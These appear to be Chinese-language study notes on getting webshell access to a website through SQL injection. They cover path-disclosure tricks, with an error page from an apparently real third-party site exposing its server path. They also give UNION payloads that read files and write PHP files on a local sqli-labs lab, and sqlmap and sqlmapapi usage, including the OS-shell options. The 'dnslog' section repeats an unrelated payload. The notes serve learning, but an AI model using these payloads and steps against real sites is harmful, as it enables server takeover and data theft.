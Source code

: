 # 通过漏洞注入获取网站权限

## 一句话马

### 具有相关可运行环境

### 通过sql漏洞注入拿到webshell

> 使用条件

1. 木马上传成功

2. 木马路径
3. 上传的木马可以正常运行

> 通过sql注入获取对方服务器的权限，需满足条件

1. sql注入用户为dba权限（最高权限）

2. 知道网站绝对路径

   ```shell
   1.单引号爆路径：在网址中某个参数后加单引号
   2.错误参数值：在网址中将某个参数值改为位置参数
       #http://www.archcollege.com/admin.php?m=public&a=login%27 
       
       :(
   
       非法操作:login‘
       错误位置
       FILE: /data/projects/archcollege/codes/code_2018_11_20/Archcollege/ThinkPHP/Common/functions.php 　LINE: 125
   
       ThinkPHP3.1.3 { Fast & Simple OOP PHP Framework } -- [ WE CAN DO IT JUST THINK ]
   3.通过搜索引擎获取：site：xxx.com “fatal error”
   4.测试文件获取路径：使用集成化软件环境搭建网站，XAMPP,PHPStudy等，会遗留下测试文件test.php等
   5.配置文件获取路径：若注入点有文件读取权限，可通过load_file函数读取配置文件，从中寻路径信息
   	寻找默认文件路径进行尝试
   	c:\windows\php.ini
   	c:\windows\system32\insetsrv\MetaBase.xml
   	etc/php.ini
   6.mginx文件类型错误解析爆路径：要求web服务器是nginx，且存在文件类型解析漏洞，又是在图片地址后加/x.php，该图片不会当作php文件执行，且可能爆出路径
   7.通过phpmyadmin爆路径：/phpmyadmin/themes/darkblue_orange/layout.inc.php
   8.配合远程代码执行漏洞：eval()函数可控的话，传入phpinfo（），通过Document_Root，一句话马等
   ```

3. My.ini文件中secure_file_priv=""为空**(所有操作实现)**

4. 手工操作

    1. 读取文件load file();

       ```url
       http:/127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,load file('E:/phpstudy/PHPTutorial/www/sqi-labs-master/Less- 1/index.php”) %23
       ```

   ​	![image-20240927103706117](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20240927103706117.png)

   2. 写入文件into outfile();

      ```url
      http:/127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,'<?php phpinfo();?>',3 into outfile 'E:/phpStudy/PHPTutorial/WW/sqli-labs-master/Less-1/ab.php' %23
      ```

### 通过phpmyadmin日志写入一句话马

> 使用条件

1. root权限的数据库用户
2. 网站的绝对路径（确认有写入权限）
3. secure_file_priv=""为空

> dnslogs盲注

```url
http:/127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,load file('E:/phpstudy/PHPTutorial/www/sqi-labs-master/Less- 1/index.php”) %23
```

## 工具-sqlmap

```shell
-h                  输出参数说明
-hh                 输出详细的参数说明
-v                  输出级别（0~6，默认1）
-u url              指定url
--data=DATA         该参数指定的数据会被作为POST数据提交
-r file.txt         常用于POST注入或表单提交时注入
-p / --skip         指定/跳过测试参数
--cookie            设置cookie
--force-ssl         强制使用SSL
--threads           指定线程并发数
--prefix            指定前缀
--suffix            指定后缀
--level             检测级别（1~5，默认1）
--risk              风险等级（1~4，默认1）
--all               列举所有可访问的数据（不推荐）
--banner            列举数据库系统的信息等
--current-user      输出当前用户
--current-db        输出当前所在数据库
--hostname          输出服务器主机名
--is-dba            检测当前用户是否为管理员
--users             输出数据库系统的所有用户
--dbs               输出数据库系统的所有数据库
-D DB               指定数据库
--tables            在-D情况下输出库中所有表名
-T table            在-D情况下指定数据表
--columns           在-D -T情况下输出表中所有列名
-C column           在-D -T情况下输出某列数据的值
--dump              拉取数据存放到本地
--dump-all          拉取所有可访问数据存放到本地
--count             输出数据条目数量
--search            搜索数据库名、表明、列名，需要与-D -T或-C 联用
--sql-query         执行任意的SQL语句
--sql-shell         使用交互式SQL语句执行环境
--flie-read         读取文件
--file-write        上传文件（指定本地路径）
--file-dest         上传文件（指定目标机器路径）
--os-cmd            执行任意系统命令
--os-shell          使用交互式shell执行命令
--batch             所有要求输入都选取默认值
--wizard            初学者向导
官方手册：https://github.com/sqlmapproject/sqlmap/wiki/Usage
```

### sqlmapapi

> sqlmap api 分为服务端和客户端分为两种模式，基于HTTP及命令行的接口模式

1. 使用sqlmapapi -s 开启服务

2. 连接方式

   ```shell
   #服务端开启
   #默认端口，使用和连接（只能本机连接使用）
   sqlmapapi -s 
   sqlmapapi -c
   #自己设置端口ip
   sqlmapapi -s -H "ip" -p （端口号）
   sqlmapapi -c -H "ip" -p （端口号）
   #连接后的选项说明
   ```

   ![image-20240929094436361](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20240929094436361.png)

3. 开始扫描

```shell
api> new -u "http://127.0.0.1:81/Less-1/?id=1" #新建扫描任务
[09:47:54] [DEBUG] Calling 'http://127.0.0.1:8775/task/new'
[09:47:54] [INFO] New task ID is '594fe6c03b364b93'
[09:47:54] [DEBUG] Calling 'http://127.0.0.1:8775/scan/594fe6c03b364b93/start'
[09:47:54] [INFO] Scanning started
api (594fe6c03b364b93)> list					#查看扫描任务列表
[09:48:15] [DEBUG] Calling 'http://127.0.0.1:8775/admin/list'
{
    "success": true,
    "tasks": {
        "594fe6c03b364b93": "terminated" #查看扫描信息 terminated（扫描完成） running（正在扫描）
    },
    "tasks_num": 1
}
api (aed2210d8d5bdae0)> status				#查看扫描结果
[09:56:23] [DEBUG] Calling 'http://127.0.0.1:8775/scan/aed2210d8d5bdae0/status'
{
    "success": true,
    "status": "terminated",
    "returncode": 0
}
```

4. 判断是否存在注入

   ```shell
   api (aed2210d8d5bdae0)> data
   [09:53:06] [DEBUG] Calling 'http://127.0.0.1:8775/scan/aed2210d8d5bdae0/data'
   {
       "success": true,
       "data": [
           {
               "status": 1,
               "type": 0,
               "value": {
                   "url": "http://127.0.0.1:81/Less-1/",
                   "query": "id=1",
                   "data": null
               }
           },
           {
               "status": 1,
               "type": 1,
               "value": [
                   {
                       "place": "GET",
                       "parameter": "id",
                       "ptype": 2,
                       "prefix": "'",
                       "suffix": " AND '[37m[RANDSTR][0m'='[RANDSTR]",
                       "clause": [
                           1,
                           8,
                           9
                       ],
                       "notes": [],
                       "data": {				#查看此data处是否含有数据
                           "1": {
                               "title": "AND boolean-based blind - WHERE or HAVING clause",
                               "payload": "id=1' AND 1109=1109 AND '[37mmjKv[0m'='mjKv",
                               "where": 1,
                               "vector": "AND [INFERENCE]",
                               "comment": "",
                               "templatePayload": null,
                               "matchRatio": 0.957,
                               "trueCode": 200,
                               "falseCode": 200
                           },
   api (aed2210d8d5bdae0)> use （id号）		#切换另一个扫描任务id ，查看其扫描结果或信息
   ```

5. 查数据使用

   使用方式与正常的sqlmap使用相同

6. 使用sqlmapapi脚本进行批量使用

